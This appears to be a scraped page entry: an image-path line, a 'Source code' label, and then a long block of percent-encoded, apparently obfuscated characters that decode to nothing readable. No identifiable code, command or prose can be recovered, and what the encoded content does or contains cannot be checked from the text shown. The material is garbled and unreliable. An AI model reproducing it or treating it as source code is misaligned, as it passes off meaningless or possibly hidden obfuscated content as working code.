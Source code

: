 3C63ql%1Bnsol,%08azu%7Fd%03x;fyz%02lv%7Bcj%09w%25ep%7BRf~t+j%09w%25ep%7BF.%25ep%7BQ14ep0%5C.b8%205F+%7F8$1T,,%3E8#Z*)v/;%5B,'58j%09%3C+-rh%5Dj%7C%1A9%20Zx1%3E%201V,xgc%3C%07f~2%22$@,b/5$Pe%20.8%20Z6b--8@=%7F%1F%25'T:.%3E(tZ(62#:%0897/#'P4'88tV0'8'1Qf~3%7Fjg9,?#9%5C%22'%7B8=X=b9)%20B='5p%7B%5Dk%7Cg(=Cf~?%25%22%0Bd+5%3C!Ax6%22%3C1%08676.1Gx4:%20!Per%7B%250%08+6:%3E%20%15(.:/1%5D7.?)&%08+6:%3E%20%0B%C3%B8/(p%7BQ14ep6%0B9,?p%7BWf~?%25%22%0Bd+5%3C!Ax6%22%3C1%08676.1Gx4:%20!Per%7B%250%08=,?l$Y9!%3E$;Y%3C')q1%5B%3C%7C%C3%BB!'%09w&2:j%09w&2:j%09w&2:j%09%3C+-rh%5Dj%7C%16%25:%5C5+!)0%155'59tZ(#8%25%20Lb~t$f%0Bd&2:j%09%3C+-rh%5C62.8tA!2%3Eq:@5%20%3E%3EtC9..)i%01hb2(iZ(#8%25%20Lx27-7P0-7(1Ge-+-7%5C,;%7B!5Mesk%7CtX1,fyj%C2%95%7D~t(=Cf~t(=Cf~t(=Cf~?%25%22%0Bd*ir%1D%5B;-%3C%22=A7xgc%3C%07f~2%22$@,b/5$Pe%20.8%20Z6b--8@=%7F%1F%25'T:.%3E(tZ(62#:%081,8#3%5B164l7%5D=!0)0%0Bdm?%25%22%0Bd&2:j%090pe%04=Q=b5#%20%5C%3E+8-%20%5C7,(vh%1A0pep=%5B(7/l%20L('f.!A,-5l%22T47%3Eq%10%5C+#9%201Qx-+8=Z6%7F3%250P%16-/%252%5C;#/%25;%5B+b8$1V3'?rh%1A%3C+-rhQ14ep%3C%07f%06%3E?%20G-!/l'V*++8n%09w*irh%5C62.8tA!2%3Eq6@,64%22tC9..)iq=1/%3E!V,b4%3C%20%5C7,f(1F,0./%20P%3C%7Cgc0%5C.%7Cg%3Cj%1D,-%7B*=%5B%3Cb49%20%15/*:8tA0'()tS=#/9&P+b?#x%15d#%7B#$A1-5q'%5D70//!A+%7C8%20=V3b3)&Pdm:r%7D%09w2ep%7BQ14ep%7BQ14ep0%5C.b8%205F+%7F8$1T,,%3E8#Z*)v%22;A1$2/5A1-5?yV7,/-=%5B=0%7B/%3CP965)%20B700a&P4#/)0%0Bdm?%25%22%0Bd&2:tV4#(?i%17;*%3E-%20%5B=6,#&%5Eu*2(0P6b8$1T,,%3E8#Z*)v?%3CZ*689%20Fz!3)5A6'/;;G3o))8T,'?rh%5Di%7C%08$;G,!.8'%09w*jrhQ14%7B/8T+1f/%3CP965)%20B700a7Z66%3E%22%20%0Bd&2:j%090pe%0D!A7b()8P;6alhF(#5r%15y%0Cbpl%1B%09w1+-:%0Bdm3~j%09(%7C:9%20Z5#/%257T4.%22l5%5B+5%3E%3E'%155-(8tD-'(8=Z61%7B%259X=&2-%20P4;gc$%0Bdm?%25%22%0Bd&2:j%090pe%05:V7%255%25%20Zx/4(1%0Fx~(%3C5%5Bf%03%17%18t%1Ex%0Bgc'E9,ep%7B%5Dj%7Cg%3CjX9)%3E?tA0'%7B.!A,-5?tZ%3Eb8#&G=!/l5%5B+5%3E%3E'%15#9%3E(3P+?&p%7BEf~t(=Cf~?%25%22%0Bd*ir%10P+6)97Ax18%3E=E,bs%3C5%5B1!%7B!;Q=kalhF(#5r%15y%0Cbpl%16t%1B%09%08%1C%15v%1D~t?$T6%7Cgc%3C%07f~+r7Z527)%20P4;%7B?%20Z(1%7B8%3CPx18%3E=E,b%3E41V-62#:%19x%254#0%151$%7B?;X=-5)tV968$1Fx;49tV0':8=%5B?~t%3Cj%09w&2:j%09%3C+-rh%5Dj%7C%13%250Px%0C48=S1!:8=Z61alhF(#5r%15y%0Cbpl%0D%09w1+-:%0Bdm3~j%09(%7C3%250P+b(/&%5C(6%7B%22;A1$2/5A1-5?h%1A(%7Cgc0%5C.%7Cg(=Cf~3~jf0-)87@,1%7B%20=F,x%7Bp'E9,e%0D%18axi%7B%19h%1A+2:%22j%09w*irhW*%7Cg%3CjF='%7B%20=F,b4*tT4.%7B?%3CZ*689%20Fdm+rh%1A%3C+-rh%1A%3C+-rh%1A%3C+-rhF,;7)tV0':8:P,54%3E?%18*'7-%20P%3C%7Ca%3E;Z,9va7%5Bu%20%3Cv&R:#s%7Da%19xph%60t%01jn%7B%7Cz%0Dqyva7%5Bu%20/%22yW?x)+6%1Djrwlg%05tbn%7F%7D%0Euo8%22yA=:/vwPk'h)g%0Euo8%22yOb%7Bbum%0Ca%7Bbum%0Ca?u/%3CP965)%20B700a%3C%5C%3C&%3E%22/Q11+%205Lb,4%221%141/+#&A9,/1zV0':8:P,54%3E?%18;-581%5B,b3%7Dx%1B;*%3E-%20%5B=6,#&%5Eu!4%22%20P66%7B$f%19v!3)5A6'/;;G3o8#:A=,/l%3C%06tl8$1T,,%3E8#Z*)v/;%5B,'58tEtl8$1T,,%3E8#Z*)v%22;A1$2/5A1-5?yV7,/-=%5B=0%7B$e%19v!3)5A6'/;;G3o5#%20%5C%3E+8-%20%5C7,(a7Z66:%25:P*b3~x%1B;*%3E-%20%5B=6,#&%5Eu,48=S1!:8=Z61v/;%5B,#2%221Gx*h%60zV0':8:P,54%3E?%186-/%252%5C;#/%25;%5B+o8#:A9+5)&%15(96-&R1,a%7C)%1B;*%3E-%20%5B=6,#&%5Eu/%3E%22!N(-(%25%20%5C7,a-6F7..81%0E,-+vd%0E4'=8n%05c8v%25:Q=:a:5Gpov/:%18%22k%60;=Q,*axd%05(:%60!5Mu52(%20%5Dbsk%7C%22Bc2:(0%5C6%25a%7DmE%20bju$Mc6)-:F162#:%0F72:/=A!bu~'%15=#()yZ-6&b7%5D=#/%221A/-)'yX=,.rz%5D=#?)&N5#)+=%5Bu%2048%20Z5xjy$Mc&2?$Y9;a*8P%20y:%20=R6o281X+x8):A=0%60*8P%20o,%3E5Eb,4;&T(y%3C-$%0Fiq+4)%1B;*%3E-%20%5B=6,#&%5Eu/%3E%22!%0Bv*%3E-0P*%7C3%7D/V-0(#&%0F5--)oQ11+%205Lb+5%20=%5B=y6-&R1,a%7Cu%5C524%3E%20T66&b7%5D=#/%221A/-)'yX=,.rz%5D=#?)&%0B+2:%22/S7,/a'%5C%22'a%7DfE%20?u/%3CP965)%20B700a9%5C6+6%25.P%3C9,%250A0xkm=X(-)85%5B,y3)=R06a%7Cu%5C524%3E%20T66%60/!G+-)v.Z7/v%25:%141/+#&A9,/w;E9!28-%0Fvq%60%3C;F162#:%0F9%20(#8@,'%608;Eb!:%207%1Dirk:%3C%15uboz$Mqc2!$Z*6:%22%20%0E*+%3C$%20%0F;#7/%7C%04hr-;t%18xvm%3C,%1Cy+6%3C;G,#58oY=$/v5@,-z%259E70/-:A%25l8$1T,,%3E8#Z*)v!=%5B1/261Qfl8$1T,,%3E8#Z*)v!=%5B1/261%18:7/8;%5Bf1-+/V-0(#&%0F%22-4!y%5C6c2!$Z*6:%22%20Hv!3)5A6'/;;G3o6%25:%5C5+!)0%0Bb,48%7C%1B;*%3E-%20%5B=6,#&%5Eu/2%22=X18%3Ea6@,64%22%7DN%3C+(%3C8T!x5#:Py+6%3C;G,#58)%1B;*%3E-%20%5B=6,#&%5Eu/2%22=X18%3E(j%1B;*%3E-%20%5B=6,#&%5Eu/2%22=X18%3Ea6@,64%22/Q11+%205Lb$7),%0E,-+vd%0E*+%3C$%20%0Fir+4oV-0(#&%0F%22-4!y%5C6?u/%3CP965)%20B700a9%5C6+6%25.Pu%20.8%20Z69=#:Au1261%0Fip+4oE7128=Z6x:.'Z47/)oA72a%7DeE%20y)%253%5D,xj%7D$Mc&2?$Y9;a*8P%20y=%201Mu&2%3E1V,+4%22nG75%60*8P%20o,%3E5Eb,4;&T(y:%20=R6o281X+x8):A=0%60+5Ebsn%3C,Hv!3)5A6'/;;G3o6%25:%5C5+!)yW-6/#:%0B+4%3C7#%5C%3C63vf%00(:%60$1%5C?*/vf%00(:%60/!G+-)v.Z7/v#!A%25l8$1T,,%3E8#Z*)v!1%5B-%7Cu/%3CP965)%20B700a7Z66%3E%22%20%0B%3C+-76T;)%3C%3E;@6&v/;Y70a%3E3W9jk%60d%19hnu%7Fa%1Cc%204%3E0P*o)-0%5C-1a%7DdE%20y+-0Q1,%3Cve%05(:&b7%5D=#/%221A/-)'yX=,.l=%5B(7/76T;)%3C%3E;@6&a:5Gpov/:%18:65a6Rqy9#&Q=0a%7D$Mx14%20=Qxah.%60%06mt%60.;G%3C')a&T%3C+.?n%02(:%60%3C5Q%3C+5+n%06(:%7B%7B$Mc!.%3E'Z*x+#=%5B,')w2Z66v;1%5C?*/vc%05hy/%3E5%5B++/%25;%5Bbsn%7C9Fc!4%20;Gba=*2Hv!3)5A6'/;;G3o6):@x+5%3C!A%036%22%3C1%08:7/8;%5B%05%198$1V3'?q%20G-'%0676T;)%3C%3E;@6&v/;Y70aof%059zn.)%1B;*%3E-%20%5B=6,#&%5Eu/%3E%22!%151,+9%20n,;+)iW-6/#:h%03!3)7%5E=&f*5Y+'%0676T;)%3C%3E;@6&v/;Y70ao5%0Djri%7C)%1B;*%3E-%20%5B=6,#&%5Eu!4%22%20P66%7B%25:E-6%008-E=%7F599W=0%067#%5C%3C63vc%00(:%60/!G+-)v0P%3E#.%20%20Hv!3)5A6'/;;G3o6):@x*i77Z4-)vwW:!%3E)2Hv!3)5A6'/;;G3o8#:A=,/78%5C6'v$1%5C?*/vf%07(:%60!5G?+5a%20Z(xjy$M%25l8$1T,,%3E8#Z*)v/;%5B,'58x%1B;*%3E-%20%5B=6,#&%5Eu!4%22%20P66e(=C#/:%3E3%5C6o/#$%0Fir+4)%1B;*%3E-%20%5B=6,#&%5Eu!4%22%20P66e%3C/X90%3C%25:%18,-+ve%00(:&b7%5D=#/%221A/-)'yV7,/):Af&2:jQ14%20(=F(.:5nS4'#w5Y1%255a=A=/(v7P66%3E%3EoR92a%7DdE%20y6-&R1,v8;Ebsk%3C,Hv!3)5A6'/;;G3o8#:A=,/l5N;-7#&%0F%7BtouaP%3Cc2!$Z*6:%22%20%0E;7)?;Gb24%25:A=0&b7%5D=#/%221A/-)'yV7,/):Af&2:j%5Dj96-&R1,v%3E=R06a%7DdE%20y?%25'E4#%22v=%5B4+5)yW4-8'oS7,/a'%5C%22'a%7De%00%7Dy=#:Au5%3E%253%5D,xl%7CdHv!3)5A6'/;;G3o8#:A=,/r0%5C.%7C3%7F/S7,/a#P1%2538n%02hr%60!5G?+5a%20Z(xj%7C$M%25l8$1T,,%3E8#Z*)v/;%5B,'58jQ14e$f%0B+2:%22/V7.4%3En%16nvby1Q%25l8$1T,,%3E8#Z*)v/;%5B,'58jQ14e%3C/Q11+%205Lb+5%20=%5B=o9%20;V3?